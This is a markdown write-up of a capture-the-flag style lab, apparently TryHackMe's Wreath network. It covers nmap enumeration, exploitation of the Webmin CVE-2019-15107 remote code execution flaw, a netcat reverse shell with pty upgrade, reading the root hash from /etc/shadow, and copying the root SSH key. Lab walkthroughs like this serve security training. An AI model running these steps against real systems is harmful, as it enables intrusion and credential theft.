









## *Enumeration*
>	Using `nmap` to perform a basic scan on the first 15000 ports.
```
nmap -p-15000 -vv 10.200.43.200 -oG initial-scan
```
>	- 
>	- Perform an `nmap` OS scan.
```
nmap -p 22,80,443,10000 -sV -O 10.200.43.200 -oG os-scan
```
>	- 
>	- Accessing `10.200.43.200` redirects to `https://thomaswreath.thm/` and the site fails to resolve.
>	- Adding the site to `/etc/hosts` to include the IP address.
>	- Now accessing the page should work.
>	- His mobile phone number can be found at the bottom of the page `+447821548812`.
>	- Server version can be found in the version scan `MiniServ 1.890 (Webmin httpd)`.
>	- Doing a basic google search on the above version shows an RCE vulnerability with `CVE-2019-15107` CVE number.
## *Exploitation*
>	- Downloading the provided script from the GitHub repository.
>	- Adding execution permission on the file and then running it using `python ./CVE-2019-15107.py 10.200.43.200`.
>	- Change the current `pseudoshell` to a full reverse shell using the following:
>		- Typing `shell`.
>		- Typing the attack IP and port that a `netcat` listener will be listening on.
>		- Opening a `netcat` listener on the port using `nc -lvnp 4444`.
>		- Stabilize the reverse shell using `python3 -c 'import pty;pty.spawn("/bin/bash")'`
>	- Get the root user's hash using `cat /etc/shadow | grep "root"`.
>	- One of the services found is `SSH` searching for the `.ssh` directory.
>	- Copying and pasting the found ssh key, changing the permissions with `chmod 600 root-ssh`.